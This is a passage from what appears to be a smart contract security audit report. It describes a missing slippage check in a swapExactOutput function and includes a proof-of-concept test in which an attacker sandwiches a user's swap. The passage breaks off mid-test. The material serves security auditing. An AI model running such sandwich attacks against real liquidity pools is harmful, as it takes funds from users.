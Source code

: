 ```javascript
            outputAmount,
            inputReserves,
            outputReserves
        );

        _swap(inputToken, inputAmount, outputToken, outputAmount);
    }
```

**Impact:**
The absence of a check for `maxInputAmount` in the `swapExactOutput` method makes it vulnerable to Miner Extractable Value (MEV) attacks. An MEV bot could sandwich any transaction made by this function to gain incentives at the expense of the user. This vulnerability allows attackers to manipulate the price seen by the victim's transaction, forcing them to pay more than they initially intended.

**Proof of Concept:**
A simple test demonstrates the possibility of sandwich attacks due to the lack of slippage control:

```javascript
function testSwapExactOutputSandwichAttack() public {
        attacker = makeAddr("attacker");
        poolToken.mint(attacker, 100e18);
        vm.startPrank(attacker);
        poolToken.approve(address(pool), 100e18);
        weth.approve(address(pool), 24962443665498247371);
        // poolToken.mint(user, 10e18);
        //liquidity deposit:
        vm.startPrank(liquidityProvider);
        weth.approve(address(pool), 200e18);
        poolToken.approve(address(pool), 200e18);
        pool.deposit(50e18, 50e18, 100e18, uint64(block.timestamp));
        vm.stopPrank();

        //user wants to swap
        vm.prank(user);
        poolToken.approve(address(pool), 10e18);
        // currently there is 100e18 WETH and 50e18 PT in pool
        // we want to swap x poolToken for 1e18 WETH
        // x considering fees would be = 2_046_957_198_124_987_206
        uint256 expected = 2_046_957_198_124_987_206;
        //here an attacker swaps poolToken for weth by frontrunning user,
        vm.prank(attacker);
        pool.swapExactInput(
            poolToken,
            100e18,
            weth,
            0,
            uint64(block.timestamp)
        );

        vm.prank(user);
        uint256 actual = pool.swapExactOutput(
            poolToken,
            weth,
            1e18,
            uint64(block.timestamp)
        );
        //here the attacker swaps weth for PT,
        vm.startPrank(attacker);
        pool.swapExactInput(
            weth,
            weth.balanceOf(attacker),
            poolToken,
            0,
```